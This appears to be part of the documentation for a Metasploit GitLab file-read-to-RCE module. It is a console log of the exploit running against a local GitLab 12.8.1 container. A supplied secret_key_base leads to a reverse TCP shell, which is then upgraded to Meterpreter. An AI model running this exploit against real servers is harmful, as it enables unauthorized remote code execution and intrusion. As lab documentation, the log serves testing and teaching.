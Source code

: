 ### Specifying SECRET_KEY_BASE to RCE

```
msf6 exploit(multi/http/gitlab_file_read_rce) > options

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                            Required  Description
   ----             ---------------                            --------  -----------
   DEPTH            15                                         yes       Define the max traversal depth
   PASSWORD                                                    no        The password for the specified username
   Proxies                                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           127.0.0.1                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:
                                                                         <path>'
   RPORT            80                                         yes       The target port (TCP)
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails  yes       The path to the secrets.yml file
                    /config/secrets.yml
   SECRET_KEY_BASE  301ee96a664dc634b8766368d26b4ef4deb46c593  no        The known secret_key_base from the secrets.yml - this skips the arbitrary f
                    490dc1f39526e0f278f2dfcb9f5c9bb13c74b5377            ile read if present
                    848259a533c9ad137885c01a4387deb799e14589a
                    6fbac
   SSL              false                                      no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /users/sign_in                             yes       The path to the vulnerable application
   USERNAME                                                    no        The username to authenticate as
   VHOST            gitlab.example.com                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  docker0          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/http/gitlab_file_read_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Command shell session 12 opened (172.17.0.1:4444 -> 172.17.0.2:58026) at 2020-12-06 19:53:24 -0500

^Z
Background session 12? [y/N]  y
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions -u 12
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [12]
```